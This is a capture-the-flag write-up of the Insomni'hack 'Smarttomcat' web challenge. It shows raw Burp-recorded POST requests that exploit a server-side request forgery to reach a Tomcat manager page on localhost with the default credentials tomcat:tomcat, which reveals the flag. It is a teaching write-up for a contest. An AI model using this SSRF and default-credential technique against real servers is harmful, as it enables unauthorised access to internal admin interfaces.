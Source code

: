 # Insomni'hack teaser - Smarttomcat (web 50)
For this challenge, you are supposed to enter the correct coordinates to find the robot cat.

![tomcat1](images/tomcat1.png)
![tomcat2](images/tomcat2.png)

For these types of challenges, I like using burp suite in order to record and modify HTTP requests. The following request was recorded when entering some random values.
```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://localhost:8080/index.jsp?x=875&y=-757
```

This is quite interesting, it’s sending a URL to localhost as a parameter. Judging by the name I assumed the backend software was actually running tomcat (http://tomcat.apache.org/).
I have briefly used tomcat before so I was aware that there was an admin page and that the username and password most likely was tomcat:tomcat. I found the admin URL (http://127.0.0.1/manager/html)  from google and modified the request to include the URL to the admin page.

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://127.0.0.1/manager/html
```

This caused a small little box pop up on the map informing me that I need to login using HTTP Basic Authentication. I simply updated the request once more:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://smarttomcat.teaser.insomnihack.ch/
Content-Length: 64
Connection: close

u=http://tomcat:tomcat@127.0.0.1/manager/html
```

And the flag revealed itself: `INS{th1s_is_re4l_w0rld_pent3st}`